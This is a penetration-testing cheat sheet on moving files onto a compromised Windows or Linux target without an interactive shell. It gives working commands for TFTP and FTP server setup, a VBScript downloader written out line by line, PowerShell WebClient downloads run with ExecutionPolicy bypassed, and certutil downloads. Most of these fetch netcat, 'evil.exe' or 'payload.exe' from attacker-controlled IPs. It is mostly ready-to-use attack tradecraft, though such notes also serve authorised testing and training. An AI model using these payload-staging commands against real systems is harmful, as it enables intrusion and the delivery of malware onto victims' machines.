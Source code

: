 

# Non Interactive ways

### tftp transfer

setup of tftp

`mkdir /tftp`  
`atftpd --daemon --port 69 /tftp`   

on target

`tftp -i <ip> get nc.exe`


### ftp transfer

setup ftp

`apt-get update && apt-get install pure-ftpd`

```
groupadd ftpgroup
useradd -g ftpgroup -d /dev/null -s /etc ftpuser
pure-pw useradd vipertooth -u ftpuser -d /ftphome
pure-pw mkdb
cd /etc/pure-ftpd/auth/
ln -s ../conf/PureDB 60pdb
mkdir -p /ftphome
chown -R ftpuser:ftpgroup /ftphome/
/etc/init.d/pure-ftpd restart
```

on target

```
echo open 10.11.0.5 21> ftp.txt
USER vipertooth>> ftp.txt
echo ftp>> ftp.txt
echo bin >> ftp.txt
echo GET nc.exe >> ftp.txt
echo bye >> ftp.txt
ftp -v -n -s:ftp.txt
```

## Web

Start a web service

`service apache2 start`

place transfer file in /var/www/

use current directory with any port

`python -m SimpleHTTPServer 9000`   
`python3 -m http.server 9000`   

### VBScript transfer

```
echo strUrl = WScript.Arguments.Item(0) > wget.vbs
echo StrFile = WScript.Arguments.Item(1) >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DEFAULT = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PRECONFIG = 0 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_DIRECT = 1 >> wget.vbs
echo Const HTTPREQUEST_PROXYSETTING_PROXY = 2 >> wget.vbs
echo Dim http, varByteArray, strData, strBuffer, lngCounter, fs, ts >> wget.vbs
echo Err.Clear >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set http = CreateObject("WinHttp.WinHttpRequest.5.1") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("WinHttp.WinHttpRequest") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("MSXML2.ServerXMLHTTP") >> wget.vbs
echo If http Is Nothing Then Set http = CreateObject("Microsoft.XMLHTTP") >> wget.vbs
echo http.Open "GET", strURL, False >> wget.vbs
echo http.Send >> wget.vbs
echo varByteArray = http.ResponseBody >> wget.vbs
echo Set http = Nothing >> wget.vbs
echo Set fs = CreateObject("Scripting.FileSystemObject") >> wget.vbs
echo Set ts = fs.CreateTextFile(StrFile, True) >> wget.vbs
echo strData = "" >> wget.vbs
echo strBuffer = "" >> wget.vbs
echo For lngCounter = 0 to UBound(varByteArray) >> wget.vbs
echo ts.Write Chr(255 And Ascb(Midb(varByteArray,lngCounter + 1, 1))) >> wget.vbs
echo Next >> wget.vbs
echo ts.Close >> wget.vbs
```

`cscript wget.vbs http://<IP>/evil.exe evil.exe`

### Powershell

```
echo $storageDir = $pwd > wget.ps1
echo $webclient = New-Object System.Net.WebClient >>wget.ps1
echo $url = "http://<IP>/evil.exe" >>wget.ps1
echo $file = "new-exploit.exe" >>wget.ps1
echo $webclient.DownloadFile($url,$file) >>wget.ps1
```

`powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1`

or 

`IEX(New-Object Net.WebClient).downloadFile('http://10.10.10.104/downloadme.php', ‘downloaded.php’)`


### Certutil

`certutil -urlcache -split -f http://10.10.14.12/payload.exe payload.exe`

